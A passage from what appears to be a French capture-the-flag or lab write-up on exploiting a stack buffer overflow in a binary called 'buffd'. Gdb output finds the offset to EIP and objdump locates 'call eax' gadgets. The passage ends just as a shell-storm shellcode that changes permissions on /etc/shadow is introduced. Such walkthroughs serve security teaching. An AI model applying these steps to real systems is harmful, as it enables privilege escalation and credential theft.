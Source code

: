 On a bien le contrôle sur EIP. Que se passe t-il si on varie un peu les caractères ?  

On envoie le résultat de la commande Python suivante :  

```python
print "A"*124 + "B" * 4 + "C" * 4 + "D" * 4 + "E" * 4 + "F" * 4
```

Cette fois le résultat est particulièrement instructif :  

```plain
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) info registers
eax            0xfffc0c90       -258928
ecx            0xfffc0df0       -258576
edx            0xfffc0d1c       -258788
ebx            0xf770d000       -143601664
esp            0xfffc0d10       0xfffc0d10
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0x42424242       0x42424242
eflags         0x10202  [ IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb) x/x $esp
0xfffc0d10:     0x43434343
(gdb) x/x $eax
0xfffc0c90:     0x41414141
```

On voit qu'il faut 124 caractères avant d'écraser l'adresse de retour. On remarque aussi que *eax* contient une adresse qui pointe idéalement vers le début de notre buffer :)  

On va donc chercher un gadget dans le binaire du type *jmp eax* ou *call eax* qui nous donnera un point de relais stable vers notre shellcode. *objdump* à la rescousse !  

```plain
objdump -d buffd | egrep '.*call.*eax$'
 804898f:       ff d0                   call   *%eax
 8048efb:       ff d0                   call   *%eax
```

Bingo !  

On écrit un petit exploit qui utilise un shellcode trouvé sur *shell-storm*. [Le shellcode utilisé ici](http://shell-storm.org/shellcode/files/shellcode-590.php) change simplement les droits sur */etc/shadow*.  
